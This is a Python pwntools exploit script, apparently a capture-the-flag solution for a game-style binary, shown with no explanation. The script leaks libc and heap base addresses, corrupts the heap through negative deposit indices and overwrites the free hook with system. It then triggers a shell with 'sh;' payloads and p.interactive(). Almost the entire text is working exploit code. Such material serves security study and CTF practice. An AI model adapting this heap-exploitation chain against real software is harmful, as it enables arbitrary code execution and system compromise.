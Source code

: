 ```py
view_stats(0)

libc_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
libc_base = libc_leak - 0x3c7ce0
free_hook = libc_base + 0x1c9b28
system = libc_base + 0x30410
print(hex(libc_base))

withdraw(0)
exit_pc()
restart_game()



# Get heap leak
set_name(p64(0x4072d8) + p64(0x4072e0)[:-1])
create(1, 'qwe')
enter_pc()
deposit(-2)
view_stats(0)

p.recvuntil('Type: ')
heap_leak = int(codecs.encode(p.recvuntil("\n")[:-1][::-1], 'hex'), 16)
heap_base = heap_leak - 0x12ee0
print(hex(heap_base))

withdraw(0)
exit_pc()
for i in range(16):
	create(1, 'qwe')
restart_game()

set_name("ASD")
for i in range(10):
	create(1, (p64(heap_base+0x130f0)*2 + p64(5)).ljust(0x100, b"A") )
	enter_pc()
	deposit(0)
	exit_pc()
restart_game()

to_free = heap_base + 0x14040
print(hex(to_free))
set_name(p64(to_free))
create(1, "A"*0x100)
enter_pc()
deposit(-2)
exit_pc()
restart_game()


set_name("sh;\x00"*64)
create(1, p64(free_hook)*36)
create(1, p64(system)*32)
enter_pc()
deposit(-4)
exit_pc()
restart_game()


p.interactive()
p.close()
```
